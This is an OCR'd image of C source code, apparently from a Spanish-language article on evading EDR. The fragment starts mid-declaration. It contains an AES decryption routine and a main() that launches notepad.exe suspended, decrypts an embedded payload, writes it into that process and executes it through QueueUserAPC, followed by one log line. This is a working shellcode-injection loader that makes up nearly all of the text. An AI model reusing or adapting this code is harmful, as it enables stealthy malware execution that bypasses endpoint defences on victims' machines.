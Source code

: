 ```c
	ViewShare = 1,
	ViewUnmap = 2
} SECTION_INHERIT, *PSECTION_INHERIT;	


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;
	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
			return -1;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
			return -1;
	}
	if (!CryptHashData(hHash, (BYTE*) key, (DWORD) keylen, 0)){
			return -1;              
	}
	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
			return -1;
	}
	if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, (BYTE *) payload, (DWORD *) &payload_len)){
			return -1;
	}
	CryptReleaseContext(hProv, 0);
	CryptDestroyHash(hHash);
	CryptDestroyKey(hKey);
	return 0;
}


int main(void) {
	int pid = 0;
	DWORD lpid = GetCurrentProcessId();
	printf("[main] Init program %d \n", lpid);
	getchar();
    HANDLE hProc = NULL;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
	void * pRemoteCode;
    ZeroMemory( &si, sizeof(si) );
    si.cb = sizeof(si);
    ZeroMemory( &pi, sizeof(pi) );
	CreateProcessA(0, "notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);
	printf("[injection] CreateProcessA (Suspended mode)\n\t ParentProcessId: %d \n\t RemoteProcessId (notepad.exe) %d \n\t RemoteThreadId %d \n", lpid, pi.dwProcessId, pi.dwThreadId);
	getchar();
	AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));	
	pRemoteCode = VirtualAllocEx(pi.hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(pi.hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
	
	QueueUserAPC((PAPCFUNC)pRemoteCode, pi.hThread, NULL);
	getchar();
	printf("[injection] ParentProcessId: %d \n\t RemoteProcessId %d \n\t RemoteThreadId %d \n\t payload = %p \n\t RemoteCOde = %p \n", lpid, pi.dwProcessId, pi.dwThreadId, payload, pRemoteCode);
	ResumeThread(pi.hThread);
	getchar();
	return 0;
}
```
Su ejecución de forma atómica e independiente sin EDR será la siguiente:


[FindProcess]: Process Found notepad.exe : PID 3584